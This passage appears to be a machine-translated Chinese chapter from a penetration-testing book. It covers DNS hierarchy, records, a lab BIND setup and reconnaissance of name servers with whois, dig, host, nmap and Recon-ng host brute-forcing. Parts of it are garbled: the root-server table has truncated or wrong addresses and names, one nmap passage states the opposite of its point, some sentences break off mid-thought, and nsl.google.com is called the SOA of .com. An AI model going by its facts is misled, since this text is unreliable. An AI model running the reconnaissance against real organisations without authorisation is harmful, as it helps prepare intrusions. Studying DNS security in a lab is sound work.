双步验证的一个常见例子是使用用户名、密码和个人识别码 (`PIN`) 登录网站，这些都是用户已知的。可以使用应用程序（如 `Google Authenticator`）提供的 `PIN` 或代码对其进行改进。在这种情况下，并非所有信息都是用户已知的；应用程序会生成第二件证据来证明用户的身份。这被称为双因素认证，因为需要两件证据。在这种情况下，因素是用户知道的（他们的密码）和用户拥有的（他们的智能手机）。多因素认证 (`MFA`) 简单指需要两个或更多因素的情况。第三个因素是你拥有的，例如你的指纹或视网膜扫描可能用于让你进入建筑，同时带有身份卡（你拥有的）和 `PIN`（你知道的）。

## 总结

你在这一章中花费了大量时间收集电子邮件地址和个人信息。你已经看到了通过 `Shodan`、`Google`（或其他搜索引擎）、社交媒体网站和文档元数据可以学习到的类型内容，但你还没有多次尝试寻找与公司相关的域名或主机名。

# 域名系统

网络（如互联网）中的计算机都有一个数字地址，如果你想将一台机器连接到另一台，就必须使用该地址。对于你想要连接的每台计算机，记住一个 32 位的数字——即使将其转换为十进制并整齐地格式化为 `58.199.11.2` 这种形式——也是不现实的。我们无法仅仅记住人中少数几个联系人的电话号码，而是将它们存储在某种形式的地址录中。大多数人都会同意，拥有某种形式的查找表或至少一个名称和数字列表（无论是拨电话还是连接计算机）是至关重要的，特别是当这些条目频繁更新时。

这就是域名系统（`DNS`）。在本章中，你将首先学习 `DNS` —— 了解名称服务器以及运行在它们之上的软件。你将学习如何查询名称服务器，发现这些服务器上运行软件的漏洞，并最终利用它们。

## 攻击 DNS 的影响

公司依赖名称服务器来提供查询的答案——例如“`www.yourcompany.com` 的 IP 地址是多少？”之类的查询。关闭或限制名称服务器的能力可以防止客户和员工访问一系列服务（而不只是网站），从而影响客户的信誉、声誉和收入。此外，`DNS` 的设计和实现方式可以被用于实施分布式拒绝服务（`DDOS`）攻击，在这种攻击中，可以利用多台机器的力量向单个服务器发送大量流量，使其变得失效且无法正常运行。

此类攻击几乎在世界某个地方不断发生，而且通常难以防御或追踪。根名称服务器是 `DNS` 层次结构顶端的机器，经常受到恶意行为者的攻击。`DNS` 缓存可以被修改，无论是存储在单个受害者计算机上的缓存，还是目标公司的名称服务器缓存。这意味着你可以向客户发送关于他们尝试访问的网站的虚假信息，并将他们引导你自己的仿制网站。这开启了巨大的数据盗取可能性。

## DNS 简史

回到 20 世纪 70 年代，斯坦福研究院（原为斯坦福大学的一部分）成为一个文件的官方来源，该文件包含了连接到高级研究计划局网络（`ARPANET`，互联网的早期形态）的计算机的名称（主机名）和 IP 地址。在此之前，连接到网络的机构保留着自己的过时的日期文件。这些副本保留在 UNIX 类系统中的 `/etc/hosts` 处。拥有一个集中的单一地点来查找主机的 IP 地址是有意义的。

随着这个主主机文件的增长（有 $2^{32}$ 个，即 4,294,967,296 个 `IPv4` 地址，即使这些也不够，因此引入了 `IPv6` 并产生了访问需求），显然需要一个新的系统。域名系统因此诞生了，这是一个全球性的、去中心化的、快速、冗余且无错误的数据库。

## DNS 层次结构

`DNS` 使用层次结构来存储信息，并在被请求时提供这些信息。层次结构的顶端是根名称服务器。这些服务器存储关于 `.com`、`.net` 和 `.org` 等顶级域名的信息。`.com` 名称服务器存储关于 `duckduckgo.com`、`wiley.com` 和 `bbc.com` 等域名的信息。它们不能给你这些主机的 IP 地址，但它们可以引导你找到答案的正确方向。为了访问属于 `Google` 的网站或服务，需要查询负责 `google.com` 及其所有从属服务器。

思考 `DNS` 层次结构的一种方法将其与 UNIX 类计算机上的文件结构进行比较。根级别由单个正斜杠 `/` 表示。

在该层级之下嵌套有许多目录、文件夹，例如 `dev`、`bin`、`boot`、`home` 等。在这些目录内部还有更多目录。例如，`home` 文件夹可能包含不同用户的文件夹，如 `peterk`、`sally`、`bobb` 和 `donny`。要访问 `donny` 的 `Downloads` 文件夹，路径地址路径为：`/home/donny/Downloads`。

域名系统也是如此；地址使用点而不是斜杠，从右向左读取。单个点 `.` 代表根级别（这个点在视图中是隐藏的）。在这个根级别之下是域名——类似于目录——例如 `com`、`org`、`net`、`co` 和 `house`。在这些域名内部还有进一步的域名，你可以拥有像 `news.bbc.com.` 这样的内容，结尾的点号是完全有效的。图 5.1 显示了 `DNS` 的层次结构。



**图 5.1：** DNS 层次结构

## 基础 DNS 查询

如果你在网络浏览器中输入一个域名——例如 `duckduckgo.com`，你的操作系统将尝试解析该域名；即确定其 IP 地址。它首先会检查本地答案。本地缓存和 `/etc/hosts` 文件（UNIX 类系统，Windows 系统位于 `C:\Windows\System32\drivers\etc`）会在查询发送到 `ISP` 之前被检查。

### ROOT 服务器

| 主机名 | IP 地址 | 管理机构 |
|---|---|---|
| a.root-servers | 198.4.0 | NASA (Ames Research Center) |
| b.root-servers | 192.5.4 | Cogent Communications |
| c.root-servers | 192.31.4 | University of Maryland |


| d.root-servers | 192.33.4 | University of California |
| e.root-servers | 192.53.244.100 | Internet Systems |
| f.root-servers | 199.7.27.33 | RIPE NCC |
| g.root-servers | 199.9.83.42 | ICANN |
| h.root-servers | 198.97.190.5 | U.S. Army (Research Lab) |
| i.root-servers | 192.36.148.17 | Netnod |
| j.root-servers | 198.51.100.30 | Verisign, Inc. |
| k.root-servers | 193.0.141.129 | Department of Defense |
| l.root-servers | 199.9.10.130 | Verisiana |
| m.root-servers | 202.12.27.33 | WIDE Project |

F 根服务器不会为你的 ISP 提供请求域名（`duckduckgo.com`）的地址。相反，它指向指向顶级域名的方向——返回负责 `.com` 的名称服务器的 IP 地址。你的 ISP 将查询该名称服务器并收到响应。这不是最终答案——它将是 `duckduckgo.com` 的名称服务器的 IP 地址，恰好是 `ns-175.awdns-21.com`。你的 ISP 向此服务器发送最终查询并收到访问 `duckduckgo.com` 所需的 IP 地址。该地址通过路由器的 DNS 服务器返回给你的计算机。你的 ISP 将缓存所有这些结果以供下次访问 `duckduckgo`，你的路由器和本地机器也是如此。如果你请求 `duckduckgo.com` 的子域名，例如 `news.duckduckgo.com`，你的计算机已经知道了拥有答案的名称服务器地址。这加速了对同一域名的后续查询，并减轻了全球 DNS 的整体压力。

### 权威与区域

名称服务器对域名系统中的特定子部分具有权威性；换句话说，它们为特定空间内的域名查询提供答案，并针对该空间。在上一个例子中，DNS 解析了对 `duckduckgo.com` 的查询。只有一个被称为 `duckduckgo.com` 权威起始（SOA）的名称服务器可以为该查询提供确定性的答复。你的互联网服务提供商（ISP）可能有答案，但前提是它已经进行了检查并缓存了结果。

你家庭路由器的名称服务器——即你日常 DNS 需求所使用的那个——理想情况下不应该是权威名称服务器。它不应该对任何区域拥有权威性，因为它的用途不同。它的工作是代表你在互联网上执行 DNS 查询。它是一个递归名称服务器——它会查询其他名称服务器，直到找到你查询的答案，并在过程中保存获取的所有答案。

`duckduckgo.com` 的 SOA 负责 `duckduckgo.com` 空间内的域名。它无法为 `plus.google` 或任何其他域名查询提供答案，因为它对 `google.com` 空间不具权威性。`.com` 的 SOA 是 `nsl.google.com`。`.com` 名称服务器对 `.com` 空间具有权威性，无法回答对 `.net` 空间的查询。

实际上，像 Google 这样的公司会有多个名称服务器，但这是为了冗余；它们执行相同的工作，因此都被视为 SOA。它们通常命名为 `ns1`、`ns2` 等。如果一个名称服务器离线，下一个服务器将接替它处理查询。DNS 内部的空间或名称空间也被称为权威区域（zones of authority）或简称区域（zones）。

DNS 是分级结构的，顶端是按树形结构组织的根服务器。这些服务器将权威授权给下方的名称服务器，即负责 `.com`、`.org` 等顶级域名（TLD）服务器，而这些服务器又将其传递给更低级。小型组织和个人没有自己的名称服务器，相反他们将此项工作外包给拥有名称服务器的公司，很可能是他们的网络托管公司。图 5.2 显示了 DNS 层级结构如何划分为区域。

### DNS 资源记录

域名系统是一个数据库，尽管它被拆分并存储在全球无数机器上。事实上，从理论上讲，由于其去中心化和分布式特性，没有任何单一实体应该能够控制它。如果 DNS 是一个数据库，那么它的数据在哪里，这些数据又是如何存储的？此外，你——无论是普通用户还是黑客——如何获取其访问权限？

### 域名空间



NS RR（“资源记录”）指定了对委托区域具有权威性的名称服务器

- “被委托子区域”
- 资源记录 = 与名称关联

当系统管理员想让另一个管理员管理区域的一部分时，第一个管理员的名称服务器会在稍后将区域的部分委托给另一个名称服务器。

- 由名称服务器管理的权威区域
- 另请参见：RFC 1034 4.2：数据库如何被划分为区域。

**图 5.2:** DNS 区域

来源：维基百科

存储在 DNS 中的数据被称为*资源记录*

- **主机地址 (A 记录)**：主机的 IP 地址；例如，`123.45.67.89`。这通常是你在发送包含主机名的查询（例如 `google.com`）时所请求的信息。
- **主机地址 (AAAA 记录)**：与上述类似，但这是一个 IPv6 地址而非 IPv4 地址。
- **规范名称 (CNAME)**：别名的另一种术语。一个公司可能有两个指向相同位置域，在这种情况下，其中一个就是别名。查询此记录中域名的任何人都将获得 A 记录。
- **邮件交换器 (MX)**：指一个邮件服务器，可以是主机名（如 `mail.google.com`）也可以是 IP 地址。
- **名称服务器 (NS)**：包含区域的名称服务器信息。
- **权威起始 (SOA)**：此记录比其他记录都大，可以在每个区域文件的开头找到。它包含了该区域的主名称服务器和其他一些信息。
- **指针 (PTR)**：指针记录用于 DNS 中的反向查找。这意味着你可以通过提供 IP 地址来查找主机名。当你不知道主机名并使用 IP 地址进行反向查找时，这非常有用。
- **文本 (TXT)**：这仅仅是一个文本记录。它们用于为 DNS 添加额外功能和一些杂项信息。管理员有时使用它们留下人类可读的注释。

很快将解释访问这些记录的方法，但首先查看运行在名称服务器上的软件以及可能配置的内容是有用的。伯利互联网名称域（BIND）是互联网上最广泛使用的 DNS 软件，存在多个版本（`BIND4`、`BIND8` 和 `BIND9`）。由于其广泛的使用和重要性，这（以及其他 DNS 软件）被视为关键代码。20 世纪 90 年代后期（在发现有人黑入名称服务器后），曾投入过很大精力寻找漏洞并修复 BIND 代码。该软件通过新的错误处理代码进行了审计和审查。如果你尝试阅读它，代码可能会让你眼睛流血。

- BIND
- DJBDNS
- PowerDNS
- MaraDNS
- MSDNS
- DNSmasq
- BIND

### BIND

你可能想设置自己的 DNS 服务器。在确定它足够安全之前，建议不要将自己的名称服务器暴露在网上。为什么不下载一个 Ubuntu Server (`ubuntu.com/download/server`) 或 Debian (`debian.org/distrib`) 并将其安装到虚拟机中？一旦运行，你可以从终端以 root 用户身份安装：`apt install bind9` 或任何其他包。本书提供的实验环境（`www.hackerhouse.com/hh-lab-vl-1386.io`）已经运行着一个 BIND 服务器，所以如果你不想这样做，就不需要遵循下面的步骤。

BIND 的 DNS 配置存储在 `/etc/bind/named.conf` 中，这是主配置文件，让我们来看看。注意 `named` 是守护进程，读作 "name dee"。

```bash
cd /etc/bind
named.conf
```

你应该看到此文件简单地指向（或包含）其他文件。其中一个是 `named.conf.local`。你可以打开它编辑并创建一个新区域。

```bash
vim named.conf.local
```

向文件中追加以下内容：

```
zone mydomain.com
{
    type master;
    file "/etc/bind/db.mydomain.com";
};
```

此文件指向一个不存在的文件，因此如下所示创建它：

```
vim db.mydomain.com
```

编辑此文件包含以下内容。注意开头的 SOA 记录和包含 IP 地址的 A 记录。这些是内部 IP 地址，因为此名称服务器实际上不会被公开访问。此文本的其他元素将在稍后解释。

```
$TTL 60400 IN SOA mydomain.com. root.mydomain.com. (
    2 ; Serial
    60400 ; Refresh
    86400 ; Retry
    2419200 ; Expire
    604800 ; Negative TTL
)
 A 10.10.10.10
```

# 第96 页 第5章 域名系统

```
@ IN A 10.10.10.10
@ IN AAAA ::1
@ IN NS ns.mydomain.com.
s IN A 10.10.10.10
```

虽然从上一个例子中并不容易一眼看出，但这样的区域文件只是一个使用空格作为分隔符的记录表。如果我们将当前文件以格式良好的表格形式呈现，它看起来就像表 5.1 所示。

表 5.1: 格式良好的 DNS 区域文件

| 节点 | TTL | 记录类 | 记录类型 | 记录数据 |
|---|---|---|---|---|
| @ | | IN | SOA | mydomain.com (2604800 86400 2419200 640800 ) |
| | | IN | A | 10.10.10.10 |
| @ | | IN | NS | ns.mydomain.com |
| @ | | IN | A | 10.10.10.10 |
| @ | | IN | AAAA | ::1 |
| ns | | IN | A | 10.10.10.10 |

注意 `$64800` 位于表格之前。这设置了文件中所有记录的全局 TTL 值。TTL 设置了资源记录的过期时间（单位为秒），并决定了缓存服务器何时应该丢弃记录并获取新记录。这允许 DNS 更新新的主机名、IP 地址等。

以下是文件和表 5.1 中其他字符和缩写含义的解释：

- `-` 此字符用于注释。
- `@` 此字符用于表示区域源（zone origin）。如果你在文件中使用 `ORIGIN` 指定了区域源，那么 `@` 符号将被替换为该值。由于没有指定 `ORIGIN`，它将取自 `named.conf` 中的区域名称，在我们案例中是 `mydomain.com`。（你在文件中指定了 `named.conf.local`，它被包含在 `named.conf` 中。）
- **名称**：这是映射到记录数据字段中给出的地址的名称。当有空格时，名称将从上一行复制。在本文件中，第二行中的空格（代表 `mydomain.com`）被映射到 `10.10.10.10`。

# 第5章 ■ 域名系统 97

**记录类 (Record Class)** 这通常是 IN，代表 Internet（互联网）。另一个正在使用的类是 CH，它是 CHAOS 的缩写。稍后将进一步讨论 CHAOS 类。

**记录类型 (Record Type)** 这些在本章的上一节中已经过。在上一个例子中，你可以看到 SOA、A、NS 和 AAAA 分别代表权威起始、IPv4 地址、名称服务器和 IPv6 地址。

**记录数据 (Record Data)** 这取决于记录的类型，但它通常是一个 IP 地址或主机名。我们表格中的第一条记录（SOA 记录）包含一些额外信息，以 `root.mydomain.com..` 开始。这实际上是一个电子邮件地址，应该被视为 `root@mydomain.com`。括号内的值分别代表文件的序列号、刷新时间、重试时间、过期时间和负缓存 TTL。

**序列号 (Serial Number)** 每当更新区域文件时，都需要增加此值。使用此作为序列号很常见，但在上一个例子中使用了 2。

你会注意到其中一条记录是 NS 类型。名称服务器的主机名设置为 `ns.mydomain.com`。还有另一个名为 `ns` 的名称，它实际上提供了名称服务器的 IP 地址。此类文件中可能包含的其他名称还包括 `vpn`、`ns1` 和 `ns2`，作为可以被猜测的可预测值的几个例子。

现在你已经对此区域文件进行了更改并对其进行了探索，你应该重启 BIND（更具体说是重启 BIND9）以便你的更改生效。

```
systemctl restart bind9.service
```

此时，你可以使用 Dig（域名信息探路器）来测试你的配置，该工具将在本章中被广泛使用。你应该从服务器本身运行 dig，该服务器不应连接到互联网。这意味着 Dig 将查询你的名称服务器，而不是寻找真实的 `mydomain.com`。

```
dig mydomain.com.
```

你应该看到状态为 `NOERROR`，以及包含你在文件中包含的细节的 `ADDITIONAL SECTION`（附加部分）。你还会注意到查询的服务器是端口 53 的 `127.0.0.1`，即你的本地机器。现在你已经设置好了基础的名称服务器，你可能想扩展它，或者你可能准备好查看一些它可以被攻击的方法。

## DNS 攻击工具包

这里是本章将用于演示 DNS 攻击技术的工具。所有这些工具都是免费获取的。

- Dig: 用于查询工具
- lookup: 用于查询工具
- dnsrecon: 用于侦察的脚本
- dnsenum: 用于枚举的工具
- Host: 用于查询信息的工具
- whois: 用于查询域名的工具
- WHOIS: 用于查询域名和 IP 地址信息的协议
- DNSspoof: 用于伪造 DNS 的工具
- Dsniff: 用于嗅探数据包的工具（此处为意译）
- Hping3: 在许多场景下用于创建和注入数据包的工具
- Scapy: 数据包工具
- Nmap: 扫描器
- Metasploit: 渗透测试框架
- Wireshark: 检查数据包的工具

## 查找主机

在开始攻击之前，你需要知道它在哪里。你会发现名称服务器提供。这种特定的活动是可以执行的。

## WHOIS

WHOIS 是一种用于查询域名和 IP 地址信息的协议。你会发现名称服务器提供关于目标的信息。你会发现名称服务器提供。此工具查询公共资源。尝试查找某些，例如：

```
whois hacker.house
```

你可能会发现一些记录被隐藏了。以下是 `hacker.house` 的片段：

```
Domain Name: hacker.house
Registry Domain: 352bd55d678452ad6625394453af0d
Registrar WHOIS Server: tows.com
Registrar URL: http://www.tucows.com
Updated Date: 2018-08-08T16:19:43Z
Creation Date: 2015-09-02T15:36:01Z
Expiry Date: 2019-09-02T15:36:01Z
Registrar: Tucows Domains Inc.
Registrar IANA ID: 69
Registrar Abuse Contact Email:
Registrar Abuse Contact Phone:
Domain Status: clientTransferhibited
https://icann.org/help#clientTransferhibited
Domain Status: clientUpdatehibited
https://icann.org/help#clientUpdatehibited
Registry Registrant ID: REDACTED FOR PRIVACY
Name Server: ns3.livedns.co.uk
Name Server: ns1.livedns.co.uk
Name Server: ns2.livedns.co.uk
```

最后，你可以发现列出了三个服务器。是的，就如此简单；名称服务器很难与 `hacker.house` 域名关联。

> **提示** 获取信息（如主机名）的一种方法就是直接猜测它们。更好的方法是进行大量的推测。换句话说，你可以通过暴力破解来获取信息。暴力破解这个术语在书中经常出现，通常指猜测密码。无论你是在破解用户名、密码、域名还是主机名，其概念都是相同的。对于主机名来说，这种方法几乎可以产生结果。人们在命名域名和子域名时倾向于使用可预测的规则。你会发现许多具有以下子域示例：
>
> ```
> mail.example.com
> firewall.example.com
> webserver.example.com
> vpn.example.com
> www.example.com
> web.example.com
> webmail.example.com
> ```

## 使用 Recon-ng 对主机进行暴力破解

寻找主机列表（包括名称服务器）的一种方法是对它们进行暴力破解或枚举。在理想情况下，这将揭示出一个主机或子域名的列表，例如 `mail.example.com`、`vpn.example.com` 和 `ns1.example.com`。`ns` 是表示名称服务器的常见方式，而且为了冗余考虑，通常会有多个名称服务器。

Recon-ng 中的 `brute_hosts` 模块提供了一种枚举主机的方法，并且应该针对真实的域名使用它，以最有效地演示其功能。如果想的话，可以使用 `hacker.house` 作为目标。打开上一章中的 Recon-ng，并选择 `brute_hosts` 模块。

```
modules load recon/domains-hosts/brute_hosts
```

记住，你可以按照以下方式查看模块信息：

```
info
```


# 第 5 章 域名系统 101

## 主机 (Host)

如果你想快速查找，可以使用 `host` DNS 查询工具。

有时，你得到的不仅仅是一个 IP 地址。这里有一个例子：

```
host google.co.uk
```

这返回了 IPv4 和 IPv6 地址，以及五个邮件主机及其相应的优先级。（邮件服务器将在下一章中更详细地讨论）：

```
google.co.uk has address 216.58.198.163
google.co.uk has IPv6 address 2a00:1450:4009::2003
google.co.uk mail is handled by 20 alt1.aspmx.1.google.com
google.co.uk mail is handled by 10 aspx.1.google.com
google.co.uk mail is handled by 30 alt3.aspmx.1.google.com
google.co.uk mail is handled by 30 alt2.aspmx.1.google.com
google.co.uk mail is handled by 50 alt4.aspmx.1.google.com
```

在为客户工作时，在你使用某台机器之前通常会有一个它的 IP 地址，你可以仅通过查询 DNS 来推断它是什么主机（或者在这种情况下做一个合理的推测）。在这种情况下，你可以使用 `host` 来提供 IP 地址而不是主机名。这里有一个例子：

```
host 9.9.9.9
```

这将告诉你所提供的 IP 地址的主机名，这就是指针（PTR）资源记录发挥作用的地方。

```
9.9.9.9-in-addr.arpa domain name pointer dns.quad9.net.
```

这看起来可能很奇怪，但 DNS 需要使用像 `9.9.9.9.in-addr.arpa` 这样的域名来将 IP 地址转换为更熟悉的主机名；它无法直接查找 IP 地址。这种工作方式与普通查询一样，会向各种名称服务器请求答案，先从根级别，然后是 `arpa.level`（或区域），然后是 `in-addr.arpa.zone`，以此类推。最终，在 PTR 记录中存储了 `9.9.9-in-addr.arpa` 的名称服务器将提供答案，在在这种情况下，答案是 `dns.quad9.net`。注意答案中包含了末尾的句号，并且许多其他工具都需要它。

### 使用 Dig 查找 SOA

识别名称服务器的另一种方法是使用 `dig`，它可以请求域名的 SOA。记住，SOA 是区域的主且权威名称服务器。在 `google.co.uk` 的情况下，它看起来是这样的：

```
dig google.co.uk SOA
```

响应应该类似于此：

```
;; DIG google.co.uk SOA +trace (multiline)
;; global options: +cmd
;; Got answer:
;; HEADER: QUERY; status: NOERROR, id: 5059
;; flags: qr rd; QUERY: 1, ANSWER: 0; ADDITIONAL: 1

;; OPT PSEOSECTION:
;; EDNS: version: 0, flags; udp: 512
;; QUESTION SECTION:
google.co.uk.      IN SOA

;; ANSWER SECTION:
google.co.uk     3599 IN SOA nsl1.google.com. admin.
google.com.                                 251339 0 1800 60

;; Query time: 71 msec
SERVER: 192.168.40.47(192.168.40.47)
WHEN: Dec 12 13:36:51 GMT 2018
MSG SIZE rvd: 101
```

至关重要的是，在 `ANSWER SECTION` 中，SOA 被列为 `nsl1.google.com`。这是 Google 主名称服务器的主机名。可以使用以下命令获取此服务器的 IP 地址：

```
dig nsl1.google.com
```

```
;; DIG nsl1.google.com
;; global options: +cmd
;; Got answer:
;; HEADER: QUERY; status: NOERROR, id: 64267
;; flags: qr rd; QUERY: 1, ANSWER: 0; ADDITIONAL: 1

;; OPT PSEOSECTION:
;; EDNS: version: 0, flags; udp: 512
;; QUESTION SECTION:
nsl1.google.com.                             IN A

;; ANSWER SECTION:
google.com.                               21599 IN A 216.239.198.101

;; Query time: 59 msec
SERVER: 192.168.40.47(192.168.40.47)
```

在这种情况下，在 `ANSWER SECTION` 中，SOA 列出了 `nsl1.google.com`。

## 端口扫描与服务识别

```
PORT STATE SERVICE
53/tcp open domain
MAC Address: 08:00:27:FA:D3 (Oracle VirtualBox virtual NIC)
```

```
nmap: 1 IP address (1 host up) scanned in 0.25 seconds
root@kali:~#
```

扫描结果显示有一个开放的端口——53 端口，这是名称服务器的特征。然而，在某些情况下，你可能会发现此扫描中没有发现任何开放端口。由于 Nmap 默认只搜索传输控制协议（TCP）服务，因此你不应该启动另一次扫描来检查运行在用户数据报协议（UDP）上的服务，因为 DNS 需要通过 UDP 应答才能正常工作，而你应该在名称服务器上看到运行的 UDP 服务。

```
nmap -sU 192.168.5.101
```

你可能会发现，与扫描 TCP 端口相比，这种扫描需要更长的时间才能完成，这是由于两种协议之间的根本差异。UDP 无法让 Nmap（在此情况下）验证目标主机是否接收了数据包（或数据报）。如果返回了响应，Nmap 必须比 TCP 扫描等待更长的时间。Nmap 还会在数据包在路由中丢失时重新发送数据包。与其扫描最常见的 UDP 端口（Nmap 在未提供端口时的默认设置），不如只扫描 UDP 端口 53，这是 DNS 通常使用的端口。`-U` 选项表示 UDP 扫描，`-p` 选项用于指定端口号。UDP 扫描可能会防火墙和 ICMP 过滤的影响，就像普通的 TCP 扫描在运行时如果没有 `-n` 选项（这将禁用常用的 ICMP 探测）可能会受到影响一样。你可能会遇到一个看似离线的服务，例如无法被扫描，或者由于防火墙拦截 ICMP 请求而导致 Nmap 显示其离线。通过添加 `-n` 选项，这将强制 Nmap 在不发送任何 ICMP ping 请求的情况下将主机视为存活状态。

UDP 扫描受 ICMP 过滤的影响更大，因为对关闭端口的 UDP 探测可能会收到 ICMP 类型 3（目标不可达）包的响应。这极大地加快了扫描速度并使其能够更可靠地确定开放端口。如果 ICMP 被防火墙层拦截，这些包可能无法返回给 Nmap，从而无法准确判断端口是开放还是关闭。UDP 端口扫描的最佳方法是通过协议分析进行的，即尝试与开放的服务进行通信并确定其是真实存活还是已关闭。

由于这个问题，在进行评估时，漏掉 UDP 端口的情况并不常见。因此，熟悉 TCP、UDP 和 ICMP 等不同协议及其行为非常重要。可以使用 Hping3 工具更详细地探索这些协议，并通过手动使用 TCP 和 UDP 数据包对主机进行开放端口测试，以查看所描述的行为，这可以是一次很好的学习练习。现在，让我们使用以下命令通过 nmap 执行端口扫描：

```
nmap -sU <TargetIP> -p 53
```

从这些扫描结果中，你应该看到目标主机上运行着 DNS（域名）服务——具体是在 TCP 和 UDP 端口 53 上。发现一个仅开放了 UDP 端口 53 的名称服务器并不罕见。以下是虚拟名称服务器的扫描结果。请注意，这次 UDP 端口 53 已被扫描了。

```
Starting nmap 7.70 ( https://nmap.org ) at 2018-12-17 12:06 GMT
Nmap scan report for 192.168.56.101
Host is up (0.00036s latency).

PORT STATE SERVICE
53/udp domain
MAC Address: 08:00:27:F3:FA:D3 (Oracle VirtualBox NIC)

nmap done: 1 IP address (1 host) scanned in 0.37 seconds
```

在目标主机上运行 nmap 是你尝试评估主机时执行的首要步骤之一。在未来的章节中，你将看到更多的开放端口以及运行在上面的服务。事实上，如果你扫描了书中的实验环境，你会看到比这里显示的更广泛的开放端口。在这一初始步骤之后，每个服务都应该经过探测和查询，以获取更多信息。现在，你只需要考虑单一服务；即运行在 53 端口并同时使用 TCP 和 UDP 的“domain”服务。这个域名服务到底是什么？你如何获取它的信息？该域名服务本质上是计算机上监听传入请求的软件；在许多情况下，它会是 BIND。

## 挖掘信息

与之前查询真实域名系统时使用 Dig 不同，为了获取 google.com 的 SOA，你可以使用 Dig 查询名称服务器。

除非被告知查询特定的名称服务器，否则 Dig 将尝试查询 `/etc/resolv.conf` 中列出的服务器。如果找到了可用的地址，Dig 将将查询发送到本地（localhost）。

要使用 Dig 查询特定的名称服务器，请使用以下语法：

```
dig @<NameServer> <DomainName>
```

在虚拟名称服务器的情况下，使用此语法：

```
dig @192.168.56.101 nsa.gov
```

这将查询虚拟名称服务器，结果如下：

```
; <<>> 192.168.56.101#nsa.gov: + +
; SERVER: 192.168.56.101#nsa.gov (UDP)
; flags: qr aa
; question length: 32
; queries: 1 answers: 0, authority: 1, additional: 0
; time: 0 msec
; msg: 54

nsa.gov. 3600 IN NS ns1.nsa.gov ns2.nsa.gov.
ns1.nsa.gov. 3600 IN A 10.1.0.50
ns2.nsa.gov. 3600 IN A 10.1.0.51
```

你可以看到为查询提供了一个 ANSWER 部分。ns1.nsa.gov 的 IP 地址是 10.1.0.50。这是一个内部 IP 地址，因为这是一个虚构的虚拟环境。实际上，该 IP 地址将是一个外部 IP 地址。是的，你绕了一了一圈，nsa.gov 没有 IP 地址，但你识别出了一个新的名称服务器，ns2.nsa.gov。

### 指定资源记录

Dig 可用于指定你确所需的资源记录。默认情况下，Dig 查找 A 记录，但你可以使用以下语法指定任何 BIND 记录类型：

```
dig @NameServer <DomainName><RecordType>
```

如果你想找到邮件服务器，例如邮件交换记录（MX），可以使用以下命令：

```
dig @192.168.56.101 nsa.gov MX
```

除了 Dig 所有的通常输出之外，这里包含了邮件服务器。

```
;; ANSWER SECTION:
nsa.gov.                     3600 IN MX 10 mail1.nsa.gov.
nsa.gov.                    3600 IN MX 20 mail2.nsa.gov.
```

## NSLOOKUP

`nslookup` 是一个与 Dig 类似的工具，可以用于实现相同的目标。你可以通过输入 `nslookup` 来运行它。这将显示一个新的提示符，如下所示：

```
root@kali:-# nslookup
```

可以如下所示设置选项：

```
set querytype=SOA
```

这将告诉 nslookup 查找给定域的 SOA 记录。然后你可以提供一个域名；例如：

```
google.com
> google.com
Server:
    192.168.0.47
Address:
    192.168.0.47#53

非权威回答:
google.com
origin = nsl.google.com
mail addr = dns-admin.google.com
serial = 225790204
refresh = 900
retry = 900
expire = 1800
minimum = 60
```

权威回答可以从这里找到：

nslookup 使用了系统默认设置并查询了作者的路由器来查找答案，你可能已经猜到了是 nsl.google.com。你也可以将 nslookup 作为单个命令使用；例如 `nslookup google.com`。

## 使用 WIRESHARK 进行数据包嗅探

从底层原理理解某项技术或软件的工作方式通常非常有帮助。黑客对往返数据包所做的很多操作，有时使用 Hping3 等工具在基础层面操纵这些数据包会产生有趣的结果。你应该对 DNS 查询数据包的样例有一个大致的了解。探索这种现象的一种方法是使用名为 Wireshark 的工具，它是 Kali Linux 默认安装的一部分。它是一个数据包嗅探工具；也就是说，它可以查看通过网络发送的具体内容。

Wireshark 允许你以原始形式查看数据包，并描述数据包部分内容的功能。要捕获数据包，只需在 Kali 虚拟机中打开 Wireshark 并将其设置为监听正确的网络接口。如果你使用 Dig 执行 DNS 查找，你应该看到该查询被拦截并与响应一起显示如图 5.3。

在页面顶部，你可以看到数据包的源、目的和协议。此查询是从一个虚拟机发送到另一个虚拟机的。在下方的面板中，你会看到一行“Domain Name query”（域名查询）。下窗格中高亮的十六进制表示显示了原始数据包中对应实际 DNS 查询的部分。数据包的第一部分（未高亮）由开放系统连接（OSI）模型的其他层组成，即传输层、网络层和数据层。Wireshark 还可以更详细地探索数据包的这些部分，但这超出了本章的范围。在数据包的 DNS 部分，我们可以看到查询，Wireshark 方便地为我们“剖析”数据包；你将看到某些选项的标志，取决于是否执行递归查找。

